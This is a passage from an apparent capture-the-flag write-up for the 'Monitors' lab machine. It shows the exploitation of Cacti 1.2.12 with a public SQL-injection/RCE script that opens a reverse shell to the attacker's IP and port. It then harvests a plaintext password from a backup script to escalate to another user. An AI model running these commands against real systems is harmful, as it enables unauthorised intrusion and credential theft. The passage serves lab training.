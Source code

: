Looking at the source code, we see that we have cacti version 1.2.12.

```javascript
var cactiVersion='1.2.12';
```

Looking for an exploit for this version of cacti with `searchsploit`, we have one.

```
Cacti 1.2.12 - 'filter' SQL Injection / Remote Code Execution                        | php/webapps/49810.py
```

Running the exploit should give us a shell on the machine as `www-data`.

```sh
./49810.py -t http://cacti-admin.monitors.htb -u admin -p 'BestAdministrator@2020!' --lhost YOUR_IP --lport YOUR_PORT
```

Looking at `/home`, we have a single user "marcus" so we look around for a way to escalate to marcus in addition to root. Running linpeas didn't give anything immediately useful and marcus has `user.txt` in his home so I switch my focus to escalating to marcus.

Looking in `/etc` ...

```
$ grep marcus /etc -RH 2>/dev/null
/etc/group-:marcus:x:1000:
/etc/subgid:marcus:165536:65536
/etc/group:marcus:x:1000:
/etc/passwd:marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash
/etc/systemd/system/cacti-backup.service:ExecStart=/home/marcus/.backup/backup.sh
/etc/subuid:marcus:165536:65536
/etc/passwd-:marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash
```

We find that we have the `cacti-backup` service running `/home/marcus/.backup/backup.sh`. Checking the script ...

```sh
www-data@monitors:/$ cat /home/marcus/.backup/backup.sh
#!/bin/bash

backup_name="cacti_backup"
config_pass="VerticalEdge2020"

zip /tmp/${backup_name}.zip /usr/share/cacti/cacti/*
sshpass -p "${config_pass}" scp /tmp/${backup_name} 192.168.1.14:/opt/backup_collection/${backup_name}.zip
rm /tmp/${backup_name}.zip
```

We have a password we can use to `su` into `marcus` and can grab `user.txt`.

Looking at open ports ...

```
marcus@monitors:~$ ss -tlnp
State         Recv-Q          Send-Q                    Local Address:Port                   Peer Address:Port
LISTEN        0               128                       127.0.0.53%lo:53                          0.0.0.0:*
LISTEN        0               128                             0.0.0.0:22                          0.0.0.0:*
LISTEN        0               128                           127.0.0.1:8443                        0.0.0.0:*
LISTEN        0               80                            127.0.0.1:3306                        0.0.0.0:*
LISTEN        0               128                                [::]:22                             [::]:*
```